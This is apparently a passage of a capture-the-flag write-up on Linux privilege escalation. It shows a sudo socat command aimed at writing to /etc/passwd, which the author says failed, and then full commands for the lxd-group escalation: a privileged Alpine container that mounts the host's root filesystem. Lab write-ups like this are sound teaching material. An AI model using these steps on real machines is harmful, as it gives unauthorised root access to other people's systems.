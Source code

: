```
sudo /usr/bin/socat -u 'exec:echo blablabla' "open:/etc/passwd,creat"
```

```
> su newroot
> whoami
> 
> l
> ls
> cat etc/passwd
> 
```

- I broke the shell lmao :D I mean, not really. CTRL + C will return to our shell as elyana and nothing was appended to `/etc/passwd`. However, I'll leave this here just to know that socat can be used to write on files too.

##### **PRIVILEGE ESCALATION** - via lxd group `elyana -> root`

 **LOCAL HOST

```
git clone https://github.com/saghul/lxd-alpine-builder

cd lxd-alpine-builder

sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine

sudo ./build-alpine -a i686
```

**VICTIM

```
# import the image

# It's important doing this from YOUR HOME directory on the victim machine, or it might fail.
lxc image import ./alpine*.tar.gz --alias myimage 

# before running the image, start and configure the lxd storage pool as default 
# default [enter] to all of them should do the job ; rename whatever needs renamed if default already exists
lxd init

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh

cd /mnt/root
```
